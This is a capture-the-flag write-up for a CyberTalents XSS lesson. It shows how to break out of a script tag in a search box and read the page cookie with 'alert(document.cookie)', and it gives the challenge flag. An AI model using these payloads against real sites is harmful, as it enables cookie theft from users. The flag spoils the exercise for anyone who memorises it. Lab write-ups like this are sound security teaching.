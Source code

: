 # Lesson 9: XSS

> Lesson Link:\
> *[https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/9-xss](https://cybertalents.com/learn/introduction-to-cybersecurity/units/t-introduction-to-cybersecurity/lessons/9-xss/challenges)*

## Introduction

In this lesson, we will learn about XSS, how to exploit it, and how to prevent it.

## Challenge

> Name:\
> *Searching for the cookie.*

---

> Description:\
> *simple search website we need to know which cookie to eat ;)*

## Solution

In this challenge, we have a simple search website, it has a search box, and when we search for something, it will return the search results.

Now, we need to find a way to get the cookie, so we can do that by using `XSS`.

so, we will try to inject some `XSS` payload in the search box, like this:

![alt](../assets/CybertTalents/legend/1.png)

```html
<script>alert("xss")</script>
```

and nothing happened, if we took a look at the source code, we will find this line:

```html
<script>var currentSearch = {'keyword':'you searched for: <script>alert("xss")</script>'};</script>
```

so, we might try to close the `script` tag before the `alert` function, like this:

```html
</script> <script>alert("xss")</script>
```

and we will get an alert that tells us `xss`.

so, we can try to get the cookie by using `document.cookie`, like this:

```html
</script> <script>alert(document.cookie)</script>
```

and we will get an alert that tells us the cookie. like this:

```html
x=try+to+execute+some+js+; flag=coolcookie112
```

## Flag

> coolcookie112

## References

- [https://www.w3schools.com/jsref/prop_doc_cookie.asp](https://www.w3schools.com/jsref/prop_doc_cookie.asp)

- [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)
